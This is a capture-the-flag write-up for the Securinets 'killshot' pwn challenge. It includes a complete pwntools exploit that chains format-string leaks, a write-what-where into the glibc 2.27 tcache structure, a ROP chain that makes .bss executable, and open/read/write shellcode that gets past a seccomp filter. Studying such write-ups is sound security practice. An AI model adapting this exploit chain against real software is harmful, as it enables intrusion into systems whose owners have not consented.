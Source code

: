 ## Securinets Quals CTF: killshot [pwn]

#### This will only be a brief writeup/exploit analysis on the solution for the killshot challenge. During the duration of the ctf, I was able to figure out what to do with the early stages but ran out of ideas after my initial `__free_hook` try on the heap part. I analyzed [stdnoerr's](https://twitter.com/stdnoerr) exploit script and learned new stuff which will be useful for future challenges.

## target recon
#### We were given a challenge binary and its corresponding libc. While waiting for ghidra to load and analyze the challenge binary, I played around with it and discovered the format string vulnerability, a write-what-where primitive, and a heap exploit stage.

```
This is an introduction to format string vulnerability!
Format: %4$p
0x57cb130f2260
Now this is an introduction to WWW (not the web) \o/
Pointer: 1337
Content: :BOOBA:
Now let's take it's time for heap exploitation session.
1- Add
2- delete
3- exit
1- Add
2- delete
3- exit
```

#### We can leverage the format string to leak needed offsets and use the www primitive to write any thing we want to any address that we can control. Since the version of libc provided was 2.27, we take note of the tcache mechanism. 

## initial plan
#### It was pretty straightforward at first, what I did was to leak a libc address, calculate the libc base, then write system's address to free hook using WWW. After verifying that free_hook was indeed containing system, I tried to free a chunk with /bin/sh on it but got a bad syscall error message. Looking at the decompiled code reveals the culprit:

```c
void jail_setup(void)

{
  int iVar1;
  long lVar2;
  
  lVar2 = seccomp_init(0);
  if (lVar2 == 0) {
    puts("seccomp_init() error");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  seccomp_rule_add(lVar2,0x7fff0000,0,0);
  seccomp_rule_add(lVar2,0x7fff0000,1,0);
  seccomp_rule_add(lVar2,0x7fff0000,10,0);
  seccomp_rule_add(lVar2,0x7fff0000,0x101,0);
  seccomp_rule_add(lVar2,0x7fff0000,5,0);
  iVar1 = seccomp_load(lVar2);
  if (iVar1 < 0) {
    seccomp_release(lVar2);
    puts("seccomp_load() error");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  seccomp_release(lVar2);
  return;
}
```
#### The binary had seccomp enabled. To see what syscalls are blocked, we can simply dump them using seccomp-tools.
```
(bionic)blackb3ard@localhost:~/Desktop/securinets/pwn_killshot$ seccomp-tools dump /home/blackb3ard/Desktop/securinets/pwn_killshot/kill_shot 
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0xc000003e  if (A != ARCH_X86_64) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x06 0xffffffff  if (A != 0xffffffff) goto 0011
 0005: 0x15 0x04 0x00 0x00000000  if (A == read) goto 0010
 0006: 0x15 0x03 0x00 0x00000001  if (A == write) goto 0010
 0007: 0x15 0x02 0x00 0x00000005  if (A == fstat) goto 0010
 0008: 0x15 0x01 0x00 0x0000000a  if (A == mprotect) goto 0010
 0009: 0x15 0x00 0x01 0x00000101  if (A != openat) goto 0011
 0010: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0011: 0x06 0x00 0x00 0x00000000  return KILL

```
## i'm outie
#### Since I had no idea what to do next, it was at this point that I bailed on the challenge and focused on my requirements instead. After the ctf ended and I joined the ARESx ctf team discord server, I saw stdnoerr's exploit and noted the following approaches:

## analysis
#### An overview of his exploit plan is the following:
- Leak libc offsets, binary base, heap base, and location of return address in the stack using format string vuln.
- use the WWW primitive to write the return address location into tcache_perthread_struct as a chunk with the highest size. the idea here is to get a chunk on top of the return address.
- after we allocate and get the return address chunk, we use pwntool's rop functionality to write a ropchain for us which memset's .bss with rwx permissions, read shellcode which will be stored at an offset somewhere in .bss, and then return to the start of our shellcode.
- the shellcode will do the following instructions: use the openat syscall to get a file descriptor on the flag file, read the contents of the file into a buffer in .bss, then write the contents of the flag file into stdout.

#### Instead of using his code, I rewrote my own and stepped through it in a debugger to fully understand what was happening.

```python
from pwn import *

#: CONNECT TO CHALLENGE SERVERS
context.arch = 'amd64'
binary = ELF('./kill_shot', checksec = False)
libc = ELF('./libc.so.6', checksec = False)

p = process('./kill_shot', env = {'LD_PRELOAD' : libc.path})
print(p.recvuntil(b'Format: '))

#: GDB SETTINGS
breakpoints = ['brva 0x10b3', 'brva 0x1182', 'brva 0x10b3', 'brva 0x0f10', 'brva 0xfe2', 'brva 0xf11']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))
#gdb.attach(p)

#: EXPLOIT INTERACTION STUFF
def alloc_chunk(size, data):

	p.sendline('1')
	print(p.recvuntil(b'Size: '))
	p.sendline(str(size))
	print(p.recvuntil(b'Data: '))
	p.sendline(data)
	print(p.recvuntil(b'exit\n'))

#: PWN THY VULNS
p.sendline("%4$p:%13$p:%25$p:%27$p")
leaks = p.recvuntil(b'\n').strip().split(b':')

heap_base = int(leaks[0], 16) - 0x260
binary.address = int(leaks[1], 16) - 0xd8c
libc.address = (int(leaks[2], 16) - 231) - libc.symbols['__libc_start_main']
main_ret_addr_location = int(leaks[3], 16) - 0xe0
bss = binary.bss() & -0x1000

log.info('heap_base: ' + hex(heap_base))
log.info('binary_base: ' + hex(binary.address))
log.info('libc_base: ' + hex(libc.address))
log.info('ret_addr_location: ' + hex(main_ret_addr_location))
log.info('bss: ' + hex(bss))

#: WRITE-WHAT-WHERE PRIMITIVE
tcache_perthread_struct = 0x10
tcache_count = 64
tcache_max_size = 504

print(p.recvuntil(b'Pointer: '))
p.sendline(str(heap_base + tcache_perthread_struct + tcache_count + tcache_max_size)) #: TRICK TCACHE PERTHREAD STRUCT INTO THINKING WE HAVE A 0x400 SIZED CHUNK IN THE TCACHE
print(p.recvuntil(b'Content: '))
p.sendline(p64(main_ret_addr_location)) #: ALLOCATE A CHUNK ON TOP OF THE RET ADDR LOCATION, WRITE ROPCHAIN HERE

#: ROPCHAIN ON A HEAP CHUNK
path = b'/home/blackb3ard/Desktop/flag.txt\x00'

rop_payload = ROP(libc)
rop_payload.mprotect(bss, 0x1000, 0x7) #: SET BSS AS RWX
rop_payload.read(0, bss + 0x100, 1024) #: READ SHELLCODE INTO BSS
rop_payload.raw(bss + 0x100 + len(path)) #: RETURN TO SHELLCODE

print(p.recvuntil(b'exit\n'))
alloc_chunk(0x400, rop_payload.chain())
p.sendline('3')

#: openat, read, write SHELLCODE ON .BSS
shellcode = f'''
	mov rax, 257
	mov rdi, 0
	mov rsi, {bss + 0x100}
	mov rdx, 0
	mov rcx, 0
	syscall

	mov rdi, rax
	mov rax, 0
	mov rsi, {bss}
	mov rdx, 1024
	syscall

	mov rdx, rax
	mov rax, 1
	mov rdi, 1
	mov rsi, {bss}
	syscall
'''

#time.sleep(0.2)
shellcode = asm(shellcode)
p.sendline(path + shellcode)
p.interactive()
#: credits to: stdnoerr, a strong pwn player
```

![](killshot_shell.png)